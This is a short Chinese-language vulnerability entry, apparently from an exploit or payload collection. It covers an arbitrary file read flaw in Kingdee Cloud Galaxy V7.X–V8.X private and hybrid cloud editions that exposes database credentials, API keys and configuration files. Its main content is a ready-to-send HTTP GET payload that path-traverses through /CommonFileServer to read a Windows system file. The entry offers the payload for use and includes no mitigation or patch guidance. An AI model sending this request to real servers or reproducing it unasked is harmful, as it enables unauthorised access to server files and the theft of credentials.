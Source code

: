 **漏洞描述：**

金蝶云星空V7.X、V8.X所有私有云和混合云版本存在一个通用漏洞，攻击者可利用此漏洞获取服务器上的任意文件，包括数据库凭据、API密钥、配置文件等，从而获取系统权限和敏感信息。

**影响版本：**

金蝶云星空V7.X-V8.X所有私有云和混合云版本

**Payload：**

```
GET /CommonFileServer/c%3A%2Fwindows%2Fwin.ini HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.79
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

---
